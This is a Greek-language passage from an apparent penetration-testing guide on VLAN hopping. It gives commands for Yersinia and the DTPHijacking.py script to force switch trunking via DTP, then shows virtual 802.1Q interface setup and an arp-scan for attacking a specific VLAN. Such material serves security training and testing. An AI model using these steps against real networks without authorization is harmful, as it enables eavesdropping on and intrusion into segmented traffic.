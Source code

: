 Εάν εντοπιστεί ευπάθεια στο δίκτυο, το εργαλείο _**Yersinia**_ μπορεί να χρησιμοποιηθεί για να "ενεργοποιήσει το trunking" μέσω του πρωτοκόλλου DTP, επιτρέποντας την παρατήρηση πακέτων από όλα τα VLAN.
```bash
apt-get install yersinia #Installation
sudo apt install kali-linux-large #Another way to install it in Kali
yersinia -I #Interactive mode
#In interactive mode you will need to select a interface first
#Then, you can select the protocol to attack using letter "g"
#Finally, you can select the attack using letter "x"

yersinia -G #For graphic mode
```
![](<../../.gitbook/assets/image (646) (1).png>)

Για να απαριθμήσετε τα VLANs, είναι επίσης δυνατό να δημιουργήσετε το πλαίσιο DTP Desirable με το σενάριο [**DTPHijacking.py**](https://github.com/in9uz/VLANPWN/blob/main/DTPHijacking.py)**. Μ**ην διακόψετε το σενάριο υπό καμία περίπτωση. Εισάγει το DTP Desirable κάθε τρεις δευτερόλεπτα. **Τα δυναμικά δημιουργημένα κανάλια trunk στο switch ζουν μόνο για πέντε λεπτά. Μετά από πέντε λεπτά, το trunk απενεργοποιείται.**
```
sudo python3 DTPHijacking.py --interface eth0
```
Θα ήθελα να επισημάνω ότι το **Access/Desirable (0x03)** υποδεικνύει ότι το πλαίσιο DTP είναι τύπου Desirable, το οποίο λέει στη θύρα να μεταβεί σε λειτουργία Trunk. Και το **802.1Q/802.1Q (0xa5)** υποδεικνύει τον τύπο ενθυλάκωσης 802.1Q.

Αναλύοντας τα πλαίσια STP, **μαθαίνουμε για την ύπαρξη των VLAN 30 και VLAN 60.**

<figure><img src="../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

#### Επίθεση σε συγκεκριμένα VLAN

Αφού γνωρίζετε τις ταυτότητες VLAN και τις τιμές των IP, μπορείτε **να ρυθμίσετε μια εικονική διεπαφή για να επιτεθείτε σε ένα συγκεκριμένο VLAN**.\
Αν δεν είναι διαθέσιμο το DHCP, τότε χρησιμοποιήστε την εντολή _ifconfig_ για να ορίσετε μια στατική διεύθυνση IP.
```
root@kali:~# modprobe 8021q
root@kali:~# vconfig add eth1 250
Added VLAN with VID == 250 to IF -:eth1:-
root@kali:~# dhclient eth1.250
Reloading /etc/samba/smb.conf: smbd only.
root@kali:~# ifconfig eth1.250
eth1.250  Link encap:Ethernet  HWaddr 00:0e:c6:f0:29:65
inet addr:10.121.5.86  Bcast:10.121.5.255  Mask:255.255.255.0
inet6 addr: fe80::20e:c6ff:fef0:2965/64 Scope:Link
UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
RX packets:19 errors:0 dropped:0 overruns:0 frame:0
TX packets:13 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:0
RX bytes:2206 (2.1 KiB)  TX bytes:1654 (1.6 KiB)

root@kali:~# arp-scan -I eth1.250 10.121.5.0/24
```
